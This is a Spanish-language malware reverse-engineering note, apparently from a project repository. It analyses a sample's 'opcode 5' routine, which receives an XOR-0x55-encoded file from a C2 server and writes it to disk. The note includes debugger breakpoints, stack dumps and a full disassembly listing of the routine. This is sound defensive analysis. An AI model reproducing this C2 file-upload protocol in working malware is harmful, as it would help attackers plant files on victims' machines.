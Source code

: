 # FUN_004020F0 - Opcode 5

La función FUN_004020f0 se encarga de recibir datos por red y guardarlos como archivo, con lógica adicional para indicar si el proceso falló o tuvo éxito mediante mensajes como "upfileer" y "upfileok". 

El nombre del archivo se recibe como argumento (param_1) y es un string XOR 0x55. La función:
- Descifra ese string en su lugar.
- Lo pasa a CreateFileA como argumento (ESI) para abrirlo en modo escritura (GENERIC_WRITE = 0x40000000).
- Si falla, reporta con "upfileer"; si funciona y escribe bien, reporta con "upfileok".

_____________________________________

## 0040210E - Primer ws2_32.recv (cabecera 0x204)
![0040210E - Ordinal 16](../analisis-dinamico/capturas/0040210E-opcode5.png)
- Estamos en 0040210E, justo en el call dword ptr ds:[Ordinal#16], que corresponde al primer recv de Winsock.
- La firma de recv es:
    ```
    int recv(SOCKET s, char *buf, int len, int flags);
    ```
- Al entrar (pila del caller):
    ```
    1: [esp]     = 000002C0           ; return address (ignóralo para args)
    2: [esp+4]   = 0019F39C           ; SOCKET s  ✅
    3: [esp+8]   = 00000204           ; len = 0x204 (516) ✅
    4: [esp+0xC] = 00000000           ; flags = 0 ✅
    5: [esp+0x10]= 0019FF0C           ; buf = 0x0019FF0C ✅
    ```
- Al volver (ejecuta 1 instrucción y paramos en 00402114):
    - EAX = bytes recibidos;
    - Dump *[esp+0x10] por EAX bytes → cabecera cruda (XOR sin aplicar) --> **fxftest......**


## 00402127 - Bucle XOR 0x55
![00402127-opcode5](../analisis-dinamico/capturas/00402127-opcode5.png)
- Esta captura es antes de la llamada al bucle XOR que desofusca la cabecera inicial  → EIP = 00402127.
- Este bucle recorre [ESP+0x14]..[ESP+0x14+0x1FF] (512 B).
- En [ESP+0x14] está lo que se ha recibido del host C2. Podemos hacer un dump para ver su contenido. (Ver Captura)
- Cuando EAX llegue a 0x200, sale del bucle y continúa en 00402129.
- Dónde romper para ver todo ya “limpio”: Ponemos un BP en 00402129 (justo al salir del bucle XOR). Ahí el buffer ya está desen-XOR-eado.

## 00402129 - Cabecera ya decodificada (tras bucle XOR 0x55)
![Cabecera ya decodificada](../analisis-dinamico/capturas/00402129-opcode5.png)
- BP: 00402129 (sale del bucle JL 402116)
- Cabecera decodificada: Follow in Dump [ESP+0x14] (exactamente 0x200 bytes).
- Ruta (ASCIIZ): Follow in Dump [ESP+0x28].
- Tamaño total esperado: [ESP+0x214] (DWORD LE).


## 004021BB - call WriteFile
![WriteFile](../analisis-dinamico/capturas/004021BB-opcode5.png)
Args (en ese momento):
- hFile = EBP
- lpBuffer = *[esp+0x10] (mismo que el recv)
- nBytes = *[esp+0x14] = EAX
- lpNumberOfBytesWritten = *[esp+0x0C] (fue LEA ECX,[ESP+0x10])

![WriteFile](../analisis-dinamico/capturas/opcode5-writefile.png)

![opcode5-fin](../analisis-dinamico/capturas/opcode5-fin.png)

## 004021DA - Éxito final (ACK “upfileok”)
En 004021DA (send) → verás el "upfileok":  
[esp+8] → "upfileok", *[esp+0xC] → 9.

Dado el listener, nunca llega a finalizar esta parte. 


____________________________________
# FUN_004020f0 Decompilada
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004020f0(undefined4 param_1)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1                                 XREF[1]:     004020fd(R)  
             undefined1        Stack[-0x604   local_604                               XREF[1]:     004020f6(*)  
                             FUN_004020f0                                    XREF[1]:     FUN_004012f0:0040176e(c)  
        004020f0 81 ec 08        SUB        ESP,0x608
                 06 00 00
        004020f6 8d 44 24 04     LEA        EAX=>local_604,[ESP + 0x4]
        004020fa 53              PUSH       EBX
        004020fb 55              PUSH       EBP
        004020fc 56              PUSH       ESI
        004020fd 8b b4 24        MOV        ESI,dword ptr [ESP + param_1]
                 18 06 00 00
        00402104 57              PUSH       EDI
        00402105 6a 00           PUSH       0x0
        00402107 68 04 02        PUSH       0x204
                 00 00
        0040210c 50              PUSH       EAX
        0040210d 56              PUSH       ESI
        0040210e ff 15 40        CALL       dword ptr [->WS2_32.DLL::Ordinal_16]             = 80000010
                 91 40 00
        00402114 33 c0           XOR        EAX,EAX
                             LAB_00402116                                    XREF[1]:     00402127(j)  
        00402116 8a 5c 04 14     MOV        BL,byte ptr [ESP + EAX*0x1 + 0x14]
        0040211a 80 f3 55        XOR        BL,0x55
        0040211d 88 5c 04 14     MOV        byte ptr [ESP + EAX*0x1 + 0x14],BL
        00402121 40              INC        EAX
        00402122 3d 00 02        CMP        EAX,0x200
                 00 00
        00402127 7c ed           JL         LAB_00402116
        00402129 6a 00           PUSH       0x0
        0040212b 68 80 00        PUSH       0x80
                 00 00
        00402130 6a 02           PUSH       0x2
        00402132 6a 00           PUSH       0x0
        00402134 6a 02           PUSH       0x2
        00402136 8d 4c 24 28     LEA        ECX,[ESP + 0x28]
        0040213a 68 00 00        PUSH       0x40000000
                 00 40
        0040213f 51              PUSH       ECX
        00402140 ff 15 40        CALL       dword ptr [->KERNEL32.DLL::CreateFileA]          = 0000993c
                 90 40 00
        00402146 8b e8           MOV        EBP,EAX
        00402148 85 ed           TEST       EBP,EBP
        0040214a 77 1b           JA         LAB_00402167
        0040214c 6a 00           PUSH       0x0
        0040214e 6a 09           PUSH       0x9
        00402150 68 a4 a1        PUSH       s_upfileer_0040a1a4                              = "upfileer"
                 40 00
        00402155 56              PUSH       ESI
        00402156 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        0040215c 5f              POP        EDI
        0040215d 5e              POP        ESI
        0040215e 5d              POP        EBP
        0040215f 5b              POP        EBX
        00402160 81 c4 08        ADD        ESP,0x608
                 06 00 00
        00402166 c3              RET
                             LAB_00402167                                    XREF[1]:     0040214a(j)  
        00402167 8b 9c 24        MOV        EBX,dword ptr [ESP + 0x214]
                 14 02 00 00
        0040216e 85 db           TEST       EBX,EBX
        00402170 76 57           JBE        LAB_004021c9
                             LAB_00402172                                    XREF[1]:     004021c7(j)  
        00402172 b9 ff 00        MOV        ECX,0xff
                 00 00
        00402177 33 c0           XOR        EAX,EAX
        00402179 8d bc 24        LEA        EDI,[ESP + 0x219]
                 19 02 00 00
        00402180 c6 84 24        MOV        byte ptr [ESP + 0x218],0x0
                 18 02 00 
                 00 00
        00402188 f3 ab           STOSD.REP  ES:EDI
        0040218a 66 ab           STOSW      ES:EDI
        0040218c 6a 00           PUSH       0x0
        0040218e 8d 94 24        LEA        EDX,[ESP + 0x21c]
                 1c 02 00 00
        00402195 68 00 04        PUSH       0x400
                 00 00
        0040219a 52              PUSH       EDX
        0040219b 56              PUSH       ESI
        0040219c aa              STOSB      ES:EDI
        0040219d ff 15 40        CALL       dword ptr [->WS2_32.DLL::Ordinal_16]             = 80000010
                 91 40 00
        004021a3 83 f8 ff        CMP        EAX,-0x1
        004021a6 74 43           JZ         LAB_004021eb
        004021a8 8d 4c 24 10     LEA        ECX,[ESP + 0x10]
        004021ac 6a 00           PUSH       0x0
        004021ae 51              PUSH       ECX
        004021af 8d 94 24        LEA        EDX,[ESP + 0x220]
                 20 02 00 00
        004021b6 50              PUSH       EAX
        004021b7 52              PUSH       EDX
        004021b8 55              PUSH       EBP
        004021b9 2b d8           SUB        EBX,EAX
        004021bb ff 15 3c        CALL       dword ptr [->KERNEL32.DLL::WriteFile]            = 00009930
                 90 40 00
        004021c1 85 c0           TEST       EAX,EAX
        004021c3 74 2d           JZ         LAB_004021f2
        004021c5 85 db           TEST       EBX,EBX
        004021c7 77 a9           JA         LAB_00402172
                             LAB_004021c9                                    XREF[1]:     00402170(j)  
        004021c9 55              PUSH       EBP
        004021ca ff 15 38        CALL       dword ptr [->KERNEL32.DLL::CloseHandle]          = 00009922
                 90 40 00
        004021d0 6a 00           PUSH       0x0
        004021d2 6a 09           PUSH       0x9
        004021d4 68 98 a1        PUSH       s_upfileok_0040a198                              = "upfileok"
                 40 00
        004021d9 56              PUSH       ESI
        004021da ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004021e0 5f              POP        EDI
        004021e1 5e              POP        ESI
        004021e2 5d              POP        EBP
        004021e3 5b              POP        EBX
        004021e4 81 c4 08        ADD        ESP,0x608
                 06 00 00
        004021ea c3              RET
```


